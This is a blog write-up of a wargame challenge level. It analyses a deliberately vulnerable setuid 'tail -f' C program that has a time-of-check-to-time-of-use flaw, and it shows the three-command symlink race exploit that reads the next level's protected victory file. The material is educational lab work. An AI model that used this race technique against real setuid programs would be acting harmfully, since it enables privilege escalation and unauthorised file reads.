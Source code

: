 ![Logo](/assets/images/belts-black.png)


We're finally getting closer to the end of the [Lieutenant](https://www.certifiedsecure.com/certification/view/37) set of challenges from **Certified Secure Binary Mastery**. This time we'll analyse another classic vulnerability - **Time of check to time of use (TOCTOU)**. At its root, the vulnerability is a class of [race condition](https://en.wikipedia.org/wiki/Race_condition). As the [Wikipedia article](https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use) states:
> **TOCTOU**, pronounced "TOCK too" is a class of software bug caused by changes in a system between the checking of a condition (such as a security credential) and the use of the results of that check.

The vulnerability in this level is actually pretty straight-forward to spot. Although race-conditions are usually difficult to exploit reliably, in this case things are easier, as we'll see.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)
* [Binary Master: Ensign - Level 2](https://livz.github.io/2016/01/14/binary-master-ensign-2.html)
* [Binary Master: Ensign - Level 3](https://livz.github.io/2016/01/21/binary-master-ensign-3.html)
* [Binary Master: Ensign - Level 4](https://livz.github.io/2016/01/28/binary-master-ensign-4.html)
* [Binary Master: Ensign - Level 5](https://livz.github.io/2016/02/09/binary-master-ensign-5.html)
* [Binary Master: Lieutenant - Level 1](https://livz.github.io/2016/02/16/binary-master-lieutenant-1.html)
* [Binary Master: Lieutenant - Level 2](https://livz.github.io/2016/02/23/binary-master-lieutenant-2.html)
* [Binary Master: Lieutenant - Level 3](https://livz.github.io/2016/03/02/binary-master-lieutenant-3.html)

## 0 - Discovery

Let's see what mitigation techniques we have here, if any, using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:

```bash
$ checksec.sh --file level4
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   level4
```
So both **NX bit** and **stack canary** are enabled. Sounds difficult to exploit but let's not worry just yet and have a look at the source code:

```c
/*
 * Nice replacement for 'tail -f'.
 */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char** argv) {
	FILE* fp;
	char ch;
	int pos = 0;
	int len = 0;

	if (argc != 2) {
		printf("Usage: %s <file>\n", argv[0]);

		return -1;
	}
	
[1]	seteuid(getuid());                                                 
	fp = fopen(argv[1], "r");
	
	if (fp == NULL) {
		char error[50];
		snprintf(error, 49, "Error opening file %s\n", argv[1]);
		fprintf(stderr, "%s", error);       
 
		return -1;
	}
	
	fclose(fp);
[2]	seteuid(1006);    
	
	for (;;) {
[3]		fp = fopen(argv[1], "rb");

		if (fp == NULL) {
			return -1;
		}

		fseek(fp, 0, SEEK_END);
		len = ftell(fp);
	
		fseek(fp, pos, SEEK_SET);

		while (pos < len) {
			ch = fgetc(fp);
			pos++;
			printf("%c", ch);
		}

		fclose(fp);
		sleep(1);
	}

	return 0;
}
```

First, a bit about the functionality of the application:
* The code at **[1]** _sets the effective user id_ to the actual user id running the process. The effective user id is what the OS checks when making a decision whether to allow an operation or not. To understand more about real and effective user ids, check [this link](https://stackoverflow.com/questions/32455684/difference-between-real-user-id-effective-user-id-and-saved-user-id#32456814). 
* Basically this call will drop the privileges temporarily (remember we have a setuid program) to check if the real user has privileges to open a file or not.
*  The _seteuid()_ call at **[2]** then restores the privileges by setting the effective user id to 1006 (level5), which is the actual owner of the binary:

```
$ id
uid=1005(level4) gid=1005(level4) groups=1005(level4)
$ ls -alh /levels/level4
-rwsr-s--- 1 level5 level4 7.7K May 12 12:36 /levels/level4
```

## 1 - Vulnerability

Although the program will check if the real user has privileges to open the file specified as first parameter,
another _open()_ call is performed at **[3]** without any verification, basically introducing the TOCTOU vulnerability. So in order to exploit this we'll do a few simle stes:
* Create a file in the /tmp folder, for which the application will have access
* While the application is in the _for_ loop waiting for modifications on the file, replace it with a symbolic link to /home/level5/victory. At this point the level5 privileges have been regained so we'll have read access

## 2 - Exploit 

As said before, exploiting this is very straight-forward:

```
$ echo 123 > /tmp/file
$ /levels/level4 /tmp/file &
[1] 11482
$ ln -fs /home/level5/victory /tmp/file
```

## 3 - Profit

```

  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                              /___/  
                ___           __                   __   
               / (_)___ __ __/ /____ ___ ___ ____ / /_  
              / / // -_) // / __/ -_) _ | _ `/ _ | __/  
             /_/_/ \__/\_,_/\__/\__/_//_|_,_/_//_|__/   
             
Subject: Victory!

Congrats, you have solved level4. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level4 @ binary mastery lieutenant)
   * the exploit 
   
You can now start with level5. If you want, you can log in
as level5 with password   [REDACTED]
```

That's it for now. The [final level]() which we'll see next was the most interesting for me. We'll perform a Man-in-the-Middle attack on a well-known cryptographic encryption scheme.


